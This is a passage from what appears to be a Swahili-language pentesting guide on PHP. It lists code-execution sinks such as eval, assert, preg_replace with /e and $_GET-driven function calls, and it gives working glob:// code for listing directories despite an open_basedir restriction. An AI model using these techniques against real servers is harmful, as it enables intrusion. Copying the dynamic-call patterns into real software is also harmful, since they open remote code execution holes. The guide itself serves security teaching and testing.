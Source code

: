 ### PHP Code Execution

Mbali na eval, kuna njia nyingine za kutekeleza msimbo wa PHP: include/require zinaweza kutumika kwa utekelezaji wa msimbo wa mbali katika mfumo wa Local File Include na Remote File Include vulnerabilities.
```php
${<php code>}              // If your input gets reflected in any PHP string, it will be executed.
eval()
assert()                   //  identical to eval()
preg_replace('/.*/e',...)  // e does an eval() on the match
create_function()          // Create a function and use eval()
include()
include_once()
require()
require_once()
$_GET['func_name']($_GET['argument']);

$func = new ReflectionFunction($_GET['func_name']);
$func->invoke();
// or
$func->invokeArgs(array());

// or serialize/unserialize function
```
## disable_functions & open_basedir

**Disabled functions** ni mipangilio inayoweza kuwekewa katika faili za `.ini` katika PHP ambayo itakataza matumizi ya **functions** zilizoonyeshwa. **Open basedir** ni mipangilio inayomwambia PHP folda ambayo inaweza kufikiwa.\
Mipangilio ya PHP inapaswa kuwekwa katika njia _/etc/php7/conf.d_ au sawa na hiyo.

Mipangilio yote inaweza kuonekana katika matokeo ya **`phpinfo()`**:

![](https://0xrick.github.io/images/hackthebox/kryptos/17.png)

![](<../../../../images/image (493).png>)

## open_basedir Bypass

`open_basedir` itapangilia folda ambazo PHP inaweza kufikia, hu **wezi kuandika/soma/kutekeleza faili yoyote nje** ya folda hizo, lakini pia hu **wezi hata kuorodhesha** saraka nyingine.\
Hata hivyo, ikiwa kwa namna fulani unaweza kutekeleza msimbo wa PHP wa kawaida unaweza **jaribu** kipande hiki cha **codes** kujaribu **bypass** kikomo hicho.

### Listing dirs with glob:// bypass

Katika mfano huu wa kwanza, itifaki ya `glob://` na njia fulani ya bypass inatumika:
```php
<?php
$file_list = array();
$it = new DirectoryIterator("glob:///v??/run/*");
foreach($it as $f) {
$file_list[] = $f->__toString();
}
$it = new DirectoryIterator("glob:///v??/run/.*");
foreach($it as $f) {
$file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
echo "{$f}<br/>";
}
```
**Note1**: Katika njia unaweza pia kutumia `/e??/*` kuorodhesha `/etc/*` na folda nyingine yoyote.\